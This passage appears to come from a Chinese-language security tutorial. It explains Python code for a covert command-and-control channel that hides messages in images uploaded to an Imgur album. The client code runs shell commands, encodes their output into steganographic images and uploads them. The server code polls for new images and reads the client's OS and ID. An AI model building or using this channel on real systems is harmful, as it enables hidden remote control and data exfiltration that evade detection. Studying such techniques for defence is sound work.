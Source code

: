 ```py
            (output, err) = p.communicate()
            p_status = p.wait()

            steg_path = StegoText.hide_message(random.choice (client.default_memes()).link,  "{'os':'" + os.name + "', 'uuid':'" + client_uuid + "','status':'response', 'response':'" + str(base64.b32encode(output)) + "'}", "Imgur1.png", True)
            uploaded = client.upload_from_path(steg_path)
            client.album_add_images(a[0].id, uploaded['id'])
            last_message_datetime = uploaded['datetime']
```

## 工作原理…

首先，我们创建一个`imgur`客户端对象；authenticate 函数处理将`imgur`客户端与我们的账户和应用程序进行身份验证。当您运行脚本时，它将输出一个 URL，让您访问以获取 PIN 码输入。然后，它会获取我们的 imgur 用户名的相册列表。如果您还没有创建相册，脚本将失败，所以请确保您已经准备好相册。我们将获取列表中的第一个相册，并获取该相册中包含的所有图像的进一步列表。

图像列表按照最早上传的图像排列；为了使我们的脚本工作，我们需要知道最新上传图像的时间戳，所以我们使用`[-1]`索引来获取它并将其存储在一个变量中。完成这些步骤后，服务器将等待客户端连接：

```py
client = authenticate()
a = client.get_account_albums("<YOUR IMGUR ACCOUNT NAME>")

imgs = client.get_album_images(a[0].id)
last_message_datetime = imgs[-1].datetime

print "Awaiting client connection ..."
```

一旦服务器等待客户端连接，我们就可以运行客户端脚本。客户端脚本的初始启动创建了一个`imgur`客户端对象，就像服务器一样，但不是等待；相反，它生成一条消息并将其隐藏在一个随机图像中。这条消息包含客户端正在运行的`os`类型（这将使服务器用户更容易知道要运行什么命令），一个`ready`状态，以及客户端的标识符（如果您想扩展脚本以允许多个客户端连接到服务器）。

一旦图像上传完成，`last_message_datetime`函数就会设置为新的时间戳：

```py
client_uuid = "test_client_1"

client = authenticate()
a = client.get_account_albums("C2ImageServer")

imgs = client.get_album_images(a[0].id)
last_message_datetime = imgs[-1].datetime

steg_path = StegoText.hide_message(random.choice (client.default_memes()).link,  "{'os':'" + os.name + "', 'uuid':'" + client_uuid + "','status':'ready'}",  "Imgur1.png",True)
uploaded = client.upload_from_path(steg_path)
client.album_add_images(a[0].id, uploaded['id'])
last_message_datetime = uploaded['datetime']
```

服务器将等待直到看到消息；它通过使用`while`循环来做到这一点，并检查比启动时保存的图像日期时间晚的图像。一旦看到有新的图像，它将下载并提取消息。然后检查消息是否是客户端准备好的消息；如果是，它会显示`uuid`客户端和`os`类型，然后提示用户输入：

```py
loop = True
while loop:
    time.sleep(5)
    imgs = client.get_album_images(a[0].id)
    if imgs[-1].datetime > last_message_datetime:
        last_message_datetime = imgs[-1].datetime
        client_dict = ast.literal_eval(StegoText.extract_message(imgs[-1].link, True))
        if client_dict['status'] == "ready":
            print "Client connected:\n"
            print "Client UUID:" + client_dict['uuid']
            print "Client OS:" + client_dict['os']
```
